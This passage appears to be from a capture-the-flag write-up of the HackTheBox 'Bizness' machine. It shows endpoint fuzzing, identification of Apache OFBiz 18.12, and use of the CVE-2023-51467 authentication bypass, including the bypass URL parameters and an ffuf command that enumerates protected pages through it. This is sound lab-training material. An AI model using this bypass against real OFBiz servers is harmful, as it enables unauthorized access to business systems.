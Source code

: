 We can't filter on response code so i filtered on response size.
We find useless endpoints but one seems to be interesting: `webtools` which redirects to `https://bizness.htb/webtools/control/main`

The page says:

```
For something interesting make sure you are logged in, try username: admin, password: ofbiz.

NOTE: If you have not already run the installation data loading script, from the ofbiz home directory run "gradlew loadAll" or "java -jar build/libs/ofbiz.jar -l"
```

A login is present, but trying the with credentials `admin:ofbiz` seems not working.

In the footer of the page we find the following information

```
Copyright (c) 2001-2024 The Apache Software Foundation. Powered by Apache OFBiz. Release 18.12
```

And searching for ofbiz vulnerabilities led me to find a recent CVE.

https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/

The exploit is pretty simple and talks about bypassing authentication requirements by simpling using `requirePasswordChange=Y`
as `GET` parameter in each request.

Executing a `poc` for detecing the vulnerability returns the following:

```
[10:43:57] Vulnerable URL found: https://bizness.htb, Response: PONG
```

It seems vulnerable, and in fact using burpsuite we can access `https://bizness.htb/webtools/control/ping?FUZZUSERNAME=&PASSWORD=&requirePasswordChange=Y`
which should be authenticated.

Ping looks like a bash command, let's fuzz for other interesting files using the auth bypass in the while

`ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'https://bizness.htb/webtools/control/FUZZ?USERNAME=&PASSWORD=&requirePasswordChange=Y' -fl 492`

Filtering for file lines response.

```
login                   [Status: 200, Size: 11536, Words: 1295, Lines: 195, Duration: 987ms]
help                    [Status: 200, Size: 3985, Words: 320, Lines: 49, Duration: 879ms]
security                [Status: 200, Size: 9819, Words: 986, Lines: 149, Duration: 834ms]
main                    [Status: 200, Size: 9851, Words: 1003, Lines: 154, Duration: 805ms]
view                    [Status: 200, Size: 9851, Words: 1003, Lines: 154, Duration: 598ms]
yahoo                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 419ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 431ms]
views                   [Status: 200, Size: 9851, Words: 1003, Lines: 154, Duration: 556ms]
ping                    [Status: 200, Size: 6, Words: 1, Lines: 3, Duration: 759ms]
forgotPassword          [Status: 200, Size: 11081, Words: 1443, Lines: 175, Duration: 394ms]
xmlrpc                  [Status: 200, Size: 369, Words: 14, Lines: 1, Duration: 410ms]
chain                   [Status: 200, Size: 9851, Words: 1003, Lines: 154, Duration: 469ms]
```
